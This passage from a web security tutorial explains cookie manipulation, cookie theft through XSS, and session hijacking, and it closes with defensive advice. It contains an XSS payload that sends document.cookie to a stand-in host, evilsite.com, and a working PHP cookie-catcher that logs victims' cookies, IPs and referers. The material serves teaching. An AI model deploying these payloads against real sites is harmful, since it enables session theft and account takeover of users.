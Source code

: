 <p>As we can see there are a number of name-value pairs in the cookies stored by facebook on our system. Also, not all of them are related to the user's session. In my case i modified the cookie value with the name "s" and found out that i was still able to browse through facebook, hence the session was still maintained. But when i modified the cookie value with the name "c_user", and tried to surf pages across facebook i found out that i was logged out, i.e the session state was broken and i had to reenter my credentials.</p>

<p>There could be a number of ways for stealing cookies. In this case i will be discussing the technique of stealing cookies by exploiting an XSS vulnerability in the application. As we know that XSS allows us to execute a script on the victim's browser. Let's say we execute the following script on the victim machine.</p>

<xmp><script>document.location='http://evilsite.com?cookie=<script>document.cookie</script>'</script></xmp>

<p>What we are doing is accessing the user's cookie via javascript and passing it to an external website which stores the cookies of the user. Note that in order to access the cookie via Javascript, the HTTP-Only flag should not be set in the Cookie. Once the attacker has the user's cookies, he can enter the cookie values in his own browser by using tools like "Cookie Manager" etc and hence impersonate the user. Note that this method will work only if the website uses cookies for maintaining the session state between the client and the browser. On the evil site, we could have some php code that will receive the cookie and store it in a file. </p>

<p>Here is what the code for the Cookie Catcher file looks like.</p>

```

    <?php
    $cookie = $_GET['c'];
    $ip = getenv ('REMOTE_ADDR');
    $date=date("j F, Y, g:i a");;
    $referer=getenv ('HTTP_REFERER');
    $fp = fopen('user_info.html', 'a');
    fwrite($fp, 'Cookie: '.$cookie.'<br> IP: ' .$ip. '<br> Date and Time: ' .$date. '<br> Referer: '.$referer.'<br><br><br>');
    fclose($fp);
    //Redirect the user to google.com
    header ("Location: http://www.google.com");
    ?>

```


<p>This type of attack can be prevented by using appropriate flags (Secure and HTTP-only) for cookies whenever needed. Use of encoding should be avoided in cookies as it is trivial to decode the cookies to get back the original value. Instead encryption should be used in cookies which will prevent it from eavesdropping attacks even in an open and unencrypted network.</p>

<p><b>c) Session Hijacking</b>- In many cases a user who has authenticated successfully to a website is provided with a token value, or a session ID. This ID is used by the user while making subsequent requests to the website. In case the attacker is able to get the session ID, it is possible to impersonate the client depending on the security mechanisms deployed by the website. There are many ways of obtaining this session ID, sometimes the session ID is stored in the cookie and hence could be obtained by using the Cookie Stealing attacks as discussed earlier. In some cases, the session ID is passed as a query parameter, i.e in the URL. If an attacker has control of any proxy in between the client and the website, it is very easy for him to access the url from the logs and thus get the Session ID. In case the range of the Session ID's is known, it is also possible to brute force the session ID using Burpsuite as we did in part 1 of this article, the only difference now being that the parameter we are changing is the session ID.</p>

